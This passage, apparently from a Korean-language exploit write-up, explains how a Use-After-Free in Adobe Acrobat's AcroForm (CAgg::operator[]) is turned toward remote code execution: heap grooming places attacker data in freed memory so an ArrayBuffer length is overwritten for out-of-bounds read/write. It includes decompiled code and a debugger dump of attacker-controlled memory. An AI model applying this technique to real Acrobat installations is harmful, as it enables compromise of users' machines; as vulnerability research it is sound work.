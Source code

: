 > ~~그래도 난 파이썬이 좋아~~
> 

RCE 익스플로잇을 위해 먼저 힙 그루밍을 통해 Use-After-Free가 발생하는 메모리에 공격자가 조작할 수 있는 데이터를 할당하고 이를 통해 버그가 발생할 때 메모리에 할당된 특정 `ArrayBuffer`의 length가 덮어 쓰이게 만들어 이를 OOB Read/Write에 사용합니다.

## 1. Create Corrupted ArrayBuffer

아래는 page-heap이 활성화된 상태에서 크래시가 발생하는 `CAgg::operator[]`함수입니다.

### CAgg::operator[]

```c
int __userpurge CAgg::operator[]@<eax>(int *this@<ecx>, bool *a2@<ebx>, wchar_t *someID)
{
...
  if ( *this == 0x13 )                          // this->type
  {
    v6 = *(int (__fastcall **)(int))(dword_21473CA4 + 28);
    v7 = __guard_check_icall_fptr(someID);
    v8 = (void *)v6(v7);
    v15 = (wchar_t *)sub_20867317(v8, 1);
    v9 = (int *)this[2];
    v16 = 0;
    v11 = *(_DWORD *)sub_20AA6EED((int)a2a, v10, v9, (int)&v15, (int)a2a);
    v16 = 1;
    if ( v15 )
      sub_208679A2(v15);
    result = v11 + 24;
  }
  else
  {
    if ( *this == 0x14 )
    {
      v4 = (_DWORD *)std::map<unsigned short,CAgg>::operator[](this[2], (int)v14, v12);
    }
    else
    {
      CAgg::Convert((int)this, (_DWORD *)0x14);
      v4 = (_DWORD *)std::map<unsigned short,CAgg>::operator[](this[2], (int)a2a, &someID);// this->map
    }
    result = *v4 + 24;
  }
  return result;
}
```

힙 그루밍이 성공적으로 이루어진 상태에서는 `EScript_ESObjectEnum_CallbackProc`에서 아래처럼 공격자에 의해 컨트롤되는 메모리를 사용해서 `CAgg::operator[]`함수를 호출합니다. 

```
eax=00001b36 ebx=00000000 ecx=2909d478 edx=10e60da0 esi=71eaef50 edi=2909d478
eip=63ac2a4b esp=0457ac14 ebp=0457ac28 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200246
AcroForm!DllUnregisterServer+0x69eb:
63ac2a4b e83b410000      call    AcroForm!DllUnregisterServer+0xab2b (63ac6b8b)
0:000> dd ecx // ecx+8 == this->map
2909d478  4e4e4d4d 50504f4f *20000058* 54545353
2909d488  56565555 58585757 5a5a5959 5c5c5b5b
2909d498  5e5e5d5d 60605f5f 00006161 00000000
2909d4a8  b0fe1536 8c002000 42424141 44444343
2909d4b8  46464545 48484747 4a4a4949 4c4c4b4b
2909d4c8  4e4e4d4d 50504f4f 20000058 54545353
2909d4d8  56565555 58585757 5a5a5959 5c5c5b5b
```